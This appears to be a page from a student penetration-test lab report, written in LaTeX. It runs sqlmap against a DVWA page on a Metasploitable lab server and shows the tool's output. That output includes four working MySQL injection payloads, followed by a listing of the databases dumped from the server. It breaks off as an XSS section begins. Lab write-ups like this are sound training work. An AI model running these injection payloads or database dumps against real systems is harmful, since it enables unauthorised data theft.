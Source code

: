 \documentclass{article}
\begin{document}
\begin{lstlisting}[language=Bash]
\./sqlmap.py -u "http://metasploitable.sait230.ca/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=40ae620791b3658e5ee7eaaefbef49dc;" --tables
sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
---
Place: GET
Parameter: id
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 4543=4543 AND 'qoRs'='qoRs&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: id=1' AND (SELECT 1602 FROM(SELECT COUNT(*),CONCAT(0x3a716a663a,(SELECT (CASE WHEN (1602=1602) THEN 1 ELSE 0 END)),0x3a6664633a,FLOOR(RAND(0)*2))x FROM INFORMATION_
SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'lZPr'='lZPr&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=1' LIMIT 1,1 UNION ALL SELECT CONCAT(0x3a716a663a,0x4b574169554a4c62647a,0x3a6664633a), NULL#&Submit=Submit

    Type: AND/OR time-based blind
    Title: MySQL > 5.0.11 AND time-based blind
    Payload: id=1' AND SLEEP(5) AND 'QNHQ'='QNHQ&Submit=Submit
---
\end{lstlisting}

Here's a listing of the files:

\begin{lstlisting}[language=Bash]
root@bt-was:/pentest/database/sqlmap# tree -L 1 output/metasploitable.sait230.ca/dump/ | less
output/metasploitable.sait230.ca/dump/
├── dvwa
├── information\_schema
├── mysql
├── owasp10
├── tikiwiki
└── tikiwiki195

6 directories, 0 files

├── guestbook.csv
└── users.csv

0 directories, 2 files

\end{lstlisting}

It looks like the dvwa web application running on bwa.sait230.ca was connecting to an
instance of mysql running from metasploitable.sait230.ca. Using this sql injection vulnerability
I was able to dump the dvwa database as well as all the other databases
running from metasploitable.sait230.ca database server.

\newpage
\paragraph{XSS}
Next, I found a page called "XSS reflected". On this page, there is a textbox where
you can enter some text and then click on the submit button.
\end{document}
